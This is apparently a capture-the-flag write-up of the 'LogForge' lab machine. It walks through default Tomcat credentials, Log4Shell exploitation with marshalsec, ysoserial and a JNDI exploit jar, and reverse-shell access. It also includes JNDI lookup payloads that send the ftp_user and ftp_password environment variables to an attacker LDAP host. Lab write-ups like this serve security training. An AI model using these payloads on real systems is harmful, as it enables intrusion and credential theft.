

# LogForge


### 12/24/2021



This is a tomcat server


Because the server has a tomcat but in response shows apache2, it’s probably reversing proxys we can use orange tsai lfi.


The login credential of the panel is tomcat:tomcat.


Look my netcat receive the connection from the tomcat


Reproducing Log4J with base in this github

[https://github.com/xiajun325/apache-log4j-rce-poc](https://github.com/xiajun325/apache-log4j-rce-poc)

So git clone the marshalsec repository

```python
git clone https://github.com/mbechler/marshalsec
```

After that install the maven

```python
sudo apt-get install maven
```

After that compile the java package, Maven is a build automation tool used primarily used in Java Projects. 

```python
mvn clean package -DskipTests
```


The reverse shell not work, probably we must have to use the Ysoserial modified sending serialized objects.

In the Isoserial we can look the help returning in the screen:


So now I created a java serialized object:


Running LNDI exploit:


```python
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.26:1389 -P ~/Desktop/YSO5.ser
```

After some tries it works: Simple i change the payload to the curl executing a bash.


Python server to receive the GET:


JNDI exploit kit:


Reverse shell:


In the following steps we have to decompile the ftpServer to look at somethings. The server is running on root user.


It uses log4j again.


We need to abuse of environment variables:


To extract this we will use the wireshark and do a little change in the payload: With that we can grab the ftp_user environment.

```python
${jndi:ldap://10.10.14.26:1389/${env:ftp_user}}
```

Wireshark with filter to point to port 1389.

Inserting payload in ftp:


It returns the user in the request:


Password:

```python
${jndi:ldap://10.10.14.26:1389/${env:ftp_password}}
```


log4j_env_leakage

Other options to exfiltrate:

